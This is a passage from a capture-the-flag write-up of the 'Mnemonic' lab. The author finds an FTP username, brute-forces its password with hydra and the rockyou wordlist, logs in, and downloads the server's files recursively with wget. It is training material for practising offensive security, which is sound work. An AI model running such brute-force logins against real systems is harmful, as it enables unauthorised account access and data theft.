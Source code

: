 Found **FTP user name: `ftpuser`**. And maybe **`james` is the SSH username**??

But we don't know his password... Maybe we can use `hydra` to brute force it??

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://$RHOSTS -t 64
[...]
[21][ftp] host: 10.10.198.208   login: ftpuser   password: {Redacted}
```

Successfully brute forced!

# Initial Foothold

We now can login into the FTP port:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# ftp $RHOSTS
Connected to 10.10.198.208.
220 (vsFTPd 3.0.3)
Name (10.10.198.208:nam): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
[...]

ftp> ls -lah
[...]
lrwxrwxrwx    1 1003     1003            9 Jul 14  2020 .bash_history -> /dev/null
-rw-r--r--    1 1003     1003          220 Jul 13  2020 .bash_logout
-rw-r--r--    1 1003     1003         3771 Jul 13  2020 .bashrc
-rw-r--r--    1 1003     1003          807 Jul 13  2020 .profile
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-1
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-10
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-2
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-3
drwxr-xr-x    4 0        0            4096 Jul 14  2020 data-4
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-5
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-6
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-7
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-8
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-9
```

Hmm... Let's recursively download all files in FTP via `wget`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# wget -r ftp://ftpuser:{Redacted}@$RHOSTS
```

```                                                                                                        
┌──(root🌸siunam)-[~/…/thm/ctf/Mnemonic/10.10.198.208]
└─# ls -lah        
total 60K
drwxr-xr-x 12 root root 4.0K Sep 10 03:41 .
drwxr-xr-x  5 root root 4.0K Sep 10 03:40 ..
-rw-r--r--  1 root root  220 Jul 13  2020 .bash_logout
-rw-r--r--  1 root root 3.7K Jul 13  2020 .bashrc
drwxr-xr-x  2 root root 4.0K Sep 10 03:40 data-1
drwxr-xr-x  2 root root 4.0K Sep 10 03:40 data-10
drwxr-xr-x  2 root root 4.0K Sep 10 03:40 data-2
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-3
drwxr-xr-x  4 root root 4.0K Sep 10 03:41 data-4
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-5
```